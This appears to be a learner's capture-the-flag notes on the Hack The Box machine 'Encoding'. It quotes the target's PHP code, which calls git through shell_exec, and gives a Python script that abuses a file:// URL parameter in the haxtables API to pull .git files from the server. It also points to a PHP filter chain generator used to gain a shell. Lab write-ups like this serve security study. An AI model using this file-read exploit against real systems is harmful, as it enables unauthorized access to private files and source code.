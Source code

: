 ```bash
    return $url_content;

}

function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
?>
```

This was interesting. So to assume, and of course as following the IppSec video, there is a .git folder present, as there are git commands used in the same folder.    
I assume, based on the .php above, that `/var/ww/image/.git` is present. 

`/var/www/image/.git/
```
import requests
import sys
def from_hex(data_json):
    return bytes.fromhex(data_json)

json_data = {
    'action': 'str2hex',
    'file_url' : f'file:///var/www/image/.git/{sys.argv[1]}'

}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
with open(sys.argv[2], "wb") as f:
    f.write(from_hex(dict(response.json())['data']))
```


**Straight from the walkthrough:**   
https://0xdf.gitlab.io/2023/04/15/htb-encoding.html#shell    

Next i downloaded made a PHP Filter Chain Generator    
https://github.com/synacktiv/php_filter_chain_generator
*Note to self, i have no idea what that is*
